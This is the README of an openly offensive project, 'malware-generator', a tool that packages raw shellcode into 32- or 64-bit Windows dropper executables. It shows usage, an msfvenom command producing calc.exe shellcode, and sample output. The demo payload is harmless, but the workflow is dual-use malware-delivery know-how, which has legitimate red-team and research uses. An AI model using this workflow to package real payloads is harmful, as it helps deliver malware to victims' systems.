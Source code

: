 # malware-generator

Simple project to generate 32bit or 64bit droppers

# Usage

```
$ ./generator.py -h
usage: generator.py [-h] [-a ARCH] binaryPath

Simple raw shellcode Dropper Generator

positional arguments:
  binaryPath            File containing raw shellcode

optional arguments:
  -h, --help            show this help message and exit
  -a ARCH, --arch ARCH  Shellcode Architecture (1=x64, 2=x86) (default=x64)
```

Create raw 64bit or 32bit shellcode with any tool you like here i will use msfvenom calc 64bit shellcode.
```
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
```

Then use my tool to generate a dropper for it.
```
$ ./generator.py calc.bin 
[*] Generating x64 Dropper for calc.bin
[+] Executable saved to output/calc.exe
```


## Todo
* add option to generate direct from msfvenom.
* add option to pass .NET assemblies and use donut.
* add option to specifed output directory and output name.
